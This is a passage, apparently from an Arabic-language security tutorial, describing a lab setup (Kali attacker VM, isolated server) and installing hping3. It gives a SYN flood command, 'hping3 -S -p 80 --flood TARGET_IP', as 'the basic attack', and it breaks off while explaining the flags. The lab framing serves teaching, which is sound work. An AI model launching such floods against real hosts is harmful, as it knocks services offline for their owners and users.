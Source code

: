 ### 🔬 التطبيق العملي (بيئة مختبرية فقط)

#### البيئة المطلوبة
- آلة افتراضية للمهاجم (Kali Linux)
- خادم اختبار معزول
- شبكة محلية منعزلة تماماً

#### الأداة: hping3

**التثبيت:**
```bash
sudo apt update
sudo apt install hping3
```

**الهجوم الأساسي:**
```bash
sudo hping3 -S -p 80 --flood TARGET_IP
```

**الشرح:**
- `-S`: إرسال حزم SYN فقط

